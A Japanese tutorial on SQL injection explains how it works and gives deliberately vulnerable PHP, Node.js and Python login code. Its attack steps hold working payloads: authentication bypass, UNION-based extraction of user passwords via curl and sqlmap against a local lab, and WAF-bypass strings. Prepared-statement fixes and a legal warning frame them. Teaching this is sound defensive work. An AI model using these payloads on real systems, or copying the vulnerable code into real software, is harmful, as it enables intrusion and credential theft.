

## TL;DR

- SQL インジェクション(SQLi)はユーザー入力を SQL 文に直接結合する実装ミスで発生し、DB を自由に操作される
- OWASP Top 10 で 2003 年から 20 年以上 A01〜A03 圏内に居座り続ける、最重要 Web 脆弱性
- 防御の答えは **Prepared Statement 一択**。WAF は補助に過ぎない

---

## なぜ重要か

「古い脆弱性でしょ?」と思ったなら、その認識は危険だ。

OWASP の 2021 年レポートでは **Injection(SQLi を含む)が A03 に分類**され、調査対象アプリの 19% で何らかのインジェクション欠陥が発見されている(OWASP, 2021)。

被害の規模感を数字で見ると現実が見える:

- **2008年 Heartland Payment Systems** — SQLi により **1 億 3,400 万件**のクレジットカード情報が流出
- **2015年 TalkTalk(英国)** — SQLi で **400 万件**の顧客情報流出
- **2023年 MOVEit Transfer** — CVE-2023-34362(SQLi)が悪用され、世界 2,000 社以上が被害


> ⚠️ **法的境界**: 本記事の攻撃手法はすべて **自分が管理する環境、または明示的に許可されたラボ環境** での実践を前提にしています。他者のシステムへの無断アクセスは**不正アクセス禁止法(第3条)違反**となり、3年以下の懲役または100万円以下の罰金の対象です。

---

## 仕組み

SQLi の本質は「**データのはずの入力が、SQL の命令として解釈される**」こと。

```sql
-- 正常なクエリ
SELECT * FROM users WHERE username = 'alice' AND password = 'pass123';

-- 攻撃者が username に「' OR 1=1--」を入力した場合
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = '...';
--                                        ^^^^^^^^ 常に真  ^^ 以降コメント
```

攻撃の流れ:




| 種類 | 特徴 | 難易度 |
|------|------|--------|
| Classic(UNION-based) | エラーや結果が直接見える | ★☆☆ |
| Blind Boolean-based | 真/偽の挙動の差で推測 | ★★☆ |
| Blind Time-based | 応答時間の差で推測 | ★★☆ |
| Out-of-Band | DNS/HTTP で外部に送出 | ★★★ |

---

## 脆弱なコード例

3 言語で脆弱な実装を示す。共通の原因は**文字列結合**だ。

### PHP

```php
<?php
// ❌ 脆弱な実装 — 文字列結合でクエリを構築
$username = $_POST['username'];
$password = $_POST['password'];

$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'secret');

// この1行が命取り
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$stmt = $pdo->query($query);
$user = $stmt->fetch();

if ($user) {
    echo "ログイン成功: " . $user['username'];
}
?>
```

### Node.js

```javascript
// ❌ 脆弱な実装
const mysql = require('mysql2/promise');

async function login(username, password) {
  const conn = await mysql.createConnection({ /* 接続情報 */ });

  // テンプレートリテラルで直接埋め込み — 絶対NG
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
  const [rows] = await conn.execute(query);

  return rows.length > 0 ? rows[0] : null;
}
```

### Python

```python
# ❌ 脆弱な実装
import mysql.connector

def login(username: str, password: str):
    conn = mysql.connector.connect(host="localhost", user="root", password="secret", database="app")
    cursor = conn.cursor(dictionary=True)

    # f-string での SQL 構築 — 最もやりがちなミス
    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    cursor.execute(query)
    return cursor.fetchone()
```

---

## 攻撃手順

> ⚠️ 許可された環境のみで実践すること。

### Step 1:シングルクォートで反応を確認

```
username: '
password: anything
```

エラーが返れば SQLi の可能性が高い。

### Step 2:認証バイパス

```
username: admin' --
password: anything
```

```sql
-- 実行されるクエリ(password 条件がコメントアウト)
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
```

### Step 3:UNION でデータ抽出

```sql
-- カラム数を特定
' ORDER BY 1--   -- OK
' ORDER BY 2--   -- OK
' ORDER BY 3--   -- Error → カラム数は 2

-- users テーブルを全件取得
' UNION SELECT username, password FROM users--
```

```bash
# curl で自動化
curl -s -X POST http://localhost:8080/login.php \
  -d "username=' UNION SELECT username, password FROM users--&password=x"
```

### Step 4:sqlmap で自動化(CTF 向け)

```bash
sqlmap -u "http://localhost:8080/login.php" \
  --data="username=test&password=test" \
  --dbs \
  --batch \
  --level=3
```

---

## 防御策

### 最優先:Prepared Statement

```php
<?php
// ✅ 安全な実装
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'secret');
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
?>
```

```javascript
// ✅ 安全な実装(Node.js)
const [rows] = await conn.execute(
  'SELECT * FROM users WHERE username = ? AND password = ?',
  [username, password]
);
```

```python
# ✅ 安全な実装(Python)
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s",
    (username, password)
)
```


### WAF の位置づけ

WAF は補助。Prepared Statement を実装した**上で**追加するものだ。WAF だけでは以下のようなバイパスが通る:

```sql
-- 大文字小文字混在
' Or 1=1--

-- コメント挿入
' O/**/R 1=1--
```

---

## 実演ラボ案内

```bash
# recon0x ラボ環境をローカルで起動
git clone https://github.com/recon0x/lab-sqli-basics
cd lab-sqli-basics
docker compose up -d
# → http://localhost:8080 でアクセス
```

外部リソース:
- **PortSwigger Web Security Academy** — SQLi ラボ 18 問(無料)
- **HackTheBox / TryHackMe** — 実機ラボ
- **DVWA** — `docker run -d -p 8080:80 vulnerables/web-dvwa`

---

## よくある誤解

**「ORM を使っていれば安全」**
ORM でも raw query を書いた瞬間に脆弱になる。

```python
# ❌ SQLAlchemy でも危険
db.execute(f"SELECT * FROM users WHERE id = {user_id}")

# ✅ ORM メソッドを使う
User.query.filter_by(id=user_id).first()
```

**「エラーを消せば安全」**
Blind SQLi には効果がない。エラーを隠しても脆弱性は残る。

**「SELECT だから読み取りだけ」**
`multi_query` が有効な環境では `DROP TABLE` や `UPDATE` も実行できる。

**「小規模サイトは狙われない」**
攻撃者はツールで大量のサイトを自動スキャンする。規模は無関係。

---

## 関連 CVE と被害事例

| CVE | 年 | 対象 | 概要 |
|-----|-----|------|------|
| CVE-2014-3704 | 2014 | Drupal 7 | "Drupalgeddon" — パッチ公開から 7 時間以内にワーム化 |
| CVE-2023-34362 | 2023 | MOVEit Transfer | Cl0p ランサムグループが悪用、2,000 社以上が被害 |

---

## 次に学ぶべき記事

- [Blind SQL インジェクション](/articles/blind-sqli) — 結果が見えない状況での攻撃手法
- [Burp Suite で Web 診断](/articles/burp-suite-intro) — SQLi を効率よく探す実践ガイド
- [XSS の 3 種類](/articles/xss-basics) — SQLi と並ぶ最重要脆弱性
- [OWASP Top 10 概観](/articles/owasp-top10) — Injection カテゴリの全体像

---

## 参考文献

- OWASP Foundation. (2021). *OWASP Top Ten 2021: A03 Injection*. https://owasp.org/Top10/A03_2021-Injection/
- OWASP Foundation. (2023). *SQL Injection Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- MITRE Corporation. (2023). *CWE-89: SQL Injection*. https://cwe.mitre.org/data/definitions/89.html
- NVD. (2014). *CVE-2014-3704*. https://nvd.nist.gov/vuln/detail/CVE-2014-3704
- NVD. (2023). *CVE-2023-34362*. https://nvd.nist.gov/vuln/detail/CVE-2023-34362
